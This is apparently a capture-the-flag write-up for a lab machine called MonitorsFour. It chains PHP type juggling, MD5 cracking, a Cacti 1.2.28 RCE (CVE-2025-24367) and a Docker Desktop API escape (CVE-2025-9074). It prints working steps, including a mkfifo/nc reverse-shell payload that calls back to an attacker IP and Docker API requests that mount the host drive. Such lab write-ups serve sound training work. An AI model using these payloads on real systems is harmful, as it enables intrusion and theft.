










## ~$ Nm@p sC4n

First, perform nmap scan to find open tcp ports:
```bash
└─$ sudo nmap -p- $IP -Pn
```
Output:
```bash
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
```
The scan reveals two open ports. Next, perform a more detailed scan using additional nmap flags -> `-sC` + `-sV`:
```bash
└─$ sudo nmap -p80,5985 $IP -Pn -sC -sV
```
Output:
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```
The web application redirects to `http://monitorsfour.htb`. 

Let's add this domain to the `/etc/hosts` file:
```bash
└─$ echo -n "\n$IP\tmonitoursfour.htb" | sudo tee -a /etc/hosts
```

## ~$ w3b

Visit the web app:


The most interesting part is the login page (`http://monitorsfour.htb/login`):


The server responds with the following header:

**[+] X-Powered-By: PHP/8.3.27**

Therefore, this app is php-based.

### -> us3rs dump
Intercepting the POST request during a failed login attempt reveals that the app uses an API:


Sending a GET request to `/api/v1/users` endpoint reveals that it requires a token parameter.
```json
{"error":"Missing token parameter"}
```
I tried to send 0 as the token value and it causes the server to return user data:


It worked because the endpoint possibly uses loose comparison for a token validation -> this is a classic [php type juggling](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md) issue.

As a result, sensitive user data is exposed. 

```bash
echo -n '<response_data>' | jq
```
Readable json:
```json
[
  {
    "id": 2,
    "username": "admin",
    "email": "admin@monitorsfour.htb",
    "password": "56b32eb43e6f15395f6c46c1c9e1cd36",
    "role": "super user",
    "token": "8024b78f83f102da4f",
    "name": "Marcus Higgins",
    "position": "System Administrator",
    "dob": "1978-04-26",
    "start_date": "2021-01-12",
    "salary": "320800.00"
  },
  {
    "id": 5,
    "username": "mwatson",
    "email": "mwatson@monitorsfour.htb",
    "password": "69196959c16b26ef00b77d82cf6eb169",
    "role": "user",
    "token": "0e543210987654321",
    "name": "Michael Watson",
    "position": "Website Administrator",
    "dob": "1985-02-15",
    "start_date": "2021-05-11",
    "salary": "75000.00"
  },
  {
    "id": 6,
    "username": "janderson",
    "email": "janderson@monitorsfour.htb",
    "password": "2a22dcf99190c322d974c8df5ba3256b",
    "role": "user",
    "token": "0e999999999999999",
    "name": "Jennifer Anderson",
    "position": "Network Engineer",
    "dob": "1990-07-16",
    "start_date": "2021-06-20",
    "salary": "68000.00"
  },
  {
    "id": 7,
    "username": "dthompson",
    "email": "dthompson@monitorsfour.htb",
    "password": "8d4a7e7fd08555133e056d9aacb1e519",
    "role": "user",
    "token": "0e111111111111111",
    "name": "David Thompson",
    "position": "Database Manager",
    "dob": "1982-11-23",
    "start_date": "2022-09-15",
    "salary": "83000.00"
  }
]
```

The output contains a hashed password for each user. It is `md5` hash:
```bash
└─$ hash-identifier
#...
HASH: 56b32eb43e6f15395f6c46c1c9e1cd36

Possible Hashs:
[+] MD5
#...
```

If any of these users has a weak password, we can crack it and log into the app.

First, try to crack the admin's password with hashcat:
```bash
└─$ hashcat -a 0 -m 0 admin.hash /usr/share/wordlist/rockyou.txt
```

The hash is successfully cracked.

**[+] creds -> admin : wonderful1**

Login:

The app contains only one interesting entry at `http://monitorsfour.htb/admin/changelog` -> an item called `Infrastructure Notice` that conyains the following text: 

```bash
Migrated MonitorsFour infrastructure to Windows and Docker Desktop 4.44.2, enabling containerized deployments for improved portability, scalability, and easier environment management.
```
This may be useful later.

**[!] Docker Desktop 4.44.2**

****

I also tried to enumerate subdomains with `ffuf`:
```bash
└─$ ffuf -u http://monitorsfour.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.monitorsfour.htb" -ac
```

As a result, one subdomain is discovered:
```bash
cacti             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]
```

Adding `cacti.monitorsfour.htb` to `/etc/hosts`.

Navigating to `cacti.monitorsfour.htb` reveals a login page:


## ~$ Cacti

Cacti is an open-source network monitoring framework.

The login page displays Cacti version below of the login form.

**\[+] cacti version -> 1.2.28**

There is a chance that the previously obtained creds may be valid. I tried `admin : wonderful1` -> but it failed.

However, the user dump revealed the admin's full name -> `Marcus Higgins`.

Based on this, trying `marcus` as the username succeeds.

**\[+\] cacti admin creds => marcus : wonderful1**



### > CVE-2025-24367 

Cacti version 1.2.28 is affected by the following vulnerability:

[github ->](https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq)

According to the report, the vulnerability allows authenticated users to abuse the graph creation functionality to write an arbitrary PHP file to the web root, leading to RCE.

The vulnerability stems from insufficient sanitization of user-controllable data passed to the `rrdtool` binary during request processing.

The `cacti_escapeshellarg` function is used to sanitize user input, but fails to properly handle newline characters (`\n`); 

This allows an attacker to inject multiple newlines to execute commands on the `rrdtool` binary.

The injection occurs via the `--right-axis-label` parameter in the `/cacti/graph_templates.php` endpoint. 

More details are available on the github link I added above.

## ~$ Sh3ll as www-data

For exploitation, there is an excellent exploit on `Github` created by `TheCyberGeek` (one of creators of this machine).

[exploit by TheCyberGeek ->](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC/blob/main/exploit.py)

The exploit requires several arguments -> valid creds (`-u` for username and `-p` for password), the Cacti instance URL (`--url`), the listener address and port for the incoming reverse shell connection:
```bash
└─$ python3 exploit.py -u marcus -p wonderful1 --url http://cacti.monitorsfour.htb -i 10.10.14.48 -l 1234 
```


After running the exploit, the reverse shell is received:
```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
#...
www-data@821fbd6a43fa:~/html/cacti$ 
```
The `user.txt` flag is located in Marcus's home directory:

**\[+\] /home/marcus/user.txt**

****
##### Type Juggling
The  `/var/www/app` directory contains the source files for the `http://monitorsfour.htb` app.

`/var/www/app/controllers/UserController.php` has the following function that is for `/api/v1/users?token=<token>`:
```php
public function get_users($router)
{
  $token = $_GET['token'] ?? null;

  if ($token === null) {
    echo json_encode(["error" => "Missing token parameter"]);
    exit;
  }

  $auth = new AuthController();
  if (!$auth->validate_token($token)) {
    header("Content-Type: application/json");
    echo json_encode(["error" => "Invalid or missing token"]);
    exit;
  }

  //....
}
```
Passing 0 as the token value calls the `validate_token` function from `/var/www/app/controllers/AuthController.php`.
```php
public function validate_token($token): bool
{
  $query = "SELECT token FROM users";
  $stmt  = $this->db->query($query);
  $tokens = $stmt->fetchAll(PDO::FETCH_COLUMN);

  foreach ($tokens as $db_token) {
    if ($token == $db_token) { // <<<--- !!! TYPE JUGGLING !!!
      return true;
    }
  }

  return false;
}
```
This function contains this condition `if ($token == $db_token)` and here is where the type juggling occurs. This function uses the loose `==` operator instead of strict `===`.

This [table](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png) illustrates this behavior perfectly.

****

## ~# root.txt

### > Docker Container

The target's hostname `821fbd6a43fa` suggests that we are likely inside a docker container -> random hex strings like this are Docker's default container naming behavior.

This can be confirmed by checking for the presence of a `.dockerenv` file in the root (`/`) directory:
```bash
www-data@821fbd6a43fa:/home/marcus$ ls -laA /
```
```bash
-rwxr-xr-x   1 root root    0 Nov 10 17:04 .dockerenv
```

The `ip a` command reveals the default docker network:
```bash
#...
inet 172.18.0.3/16 brd 172.18.255.255 scope global eth0
#...
```

Also look at the `/etc/resolv.conf` file:
```bash
cat /etc/resolv.conf
```
The output:
```bash
# Generated by Docker Engine.
# This file can be edited; Docker Engine will not make further changes once it
# has been modified.

nameserver 127.0.0.11
options ndots:0

# Based on host file: '/etc/resolv.conf' (internal resolver)
# ExtServers: [host(192.168.65.7)]
# Overrides: []
# Option ndots from: internal
```
`127.0.0.11` is the Docker internal DNS resolver, which forwards queries to the host at `192.168.65.7`.

Running the following command:
```bash
www-data@821fbd6a43fa:/home/marcus$ uname -a
```
It shows a WSL2 kernel:
```bash
Linux 821fbd6a43fa 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64 GNU/Linux
```
This confirms the host is running Docker Desktop with a WSL2 backend on Windows -> consistent with the Infrastructure Notice found earlier, which mentioned a migration to Docker Desktop 4.44.2.

The non-encrypted API port (`2375`) appears to be accessible:
```bash
$ curl -v  http://192.168.65.7:2375/version
```
The request goes through without authentication:
```json
{
  "Platform":{"Name":"Docker Engine - Community"},
  //...
  "Version": "28.3.2",
  "KernelVersion": "6.6.87.2-microsoft-standard-WSL2",
  "ApiVersion":"1.51",
  "Os": "linux"
  //....
}
```
The exposed unauthenticated Docker API on a Windows Docker Desktop host points directly to CVE-2025-9074.

### > CVE 2025-9074

[NIST ->](https://nvd.nist.gov/vuln/detail/CVE-2025-9074)

[github advisory ->](https://github.com/advisories/GHSA-4xcq-3fjf-xfqw)

[qwertysecurity ->](https://blog.qwertysecurity.com/Articles/blog3.html)

CVE-2025-9074 is a critical vulnerability in Docker Desktop versions prior to 4.44.3 affecting Windows and macOS. 

Docker Desktop has its own internal network (`192.168.65.x`) that connects containers to the host. In version 4.44.3, the Docker engine API was accidentally left open at `192.168.65.7:2375` with no authentication at all. 

Any container on that network can communicate with the Docker daemon freely -> for example, create new containers, mount the host filesystem, etc.

### > Exploit

Exploitation requires two steps:

1) create a container 

2) start the created on the previous step container

#### 1 -> create a container

**[ENDPOINT] /containers/create**

This endpoint accepts json data.

The response returns the ID of the created container.

Payload:
```bash
{
  "Image":"alpine",
  "Cmd":
  [
    "/bin/sh",
    "-c",
    "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.48 3333 >/tmp/f"
  ],
  "HostConfig":
  {
    "Binds":
    [
      "/mnt/host/c:/win"
    ]
  }
}
```
Once the container is created, the command in the Cmd field will be executed and the host filesystem will be mounted at `/win` inside the container.

Transfer the json file to the target:
```bash
www-data@821fbd6a43fa:/tmp$ curl http://10.10.14.48:9090/payload.json -o payload.json
```

Next, send a request to create the container:
```bash
www-data@821fbd6a43fa:/tmp$ curl http://192.168.65.7:2375/containers/create -X POST -H "Content-Type: application/json" -d @payload.json
...
{"Id":"dd73ac0f4a24083bff3471639c0fbb4fb096a70cdc10f3919812464991838fb7","Warnings":[]}
```
As a result, the container ID is returned.

#### 2 -> start the container

**[ENDPOINT] /containers/\<container-Id>/start**

Export the id:
```bash
www-data@821fbd6a43fa:/tmp$ export c0nta1nerId='dd73ac0f4a24083bff3471639c0fbb4fb096a70cdc10f3919812464991838fb7'
```
Start the container:
```bash
www-data@821fbd6a43fa:/tmp$ curl -s -X POST "http://192.168.65.7:2375/containers/$c0nta1nerId/start"
```

****

The `/win` directory contains the host's filesystem.

Get `root.txt`:
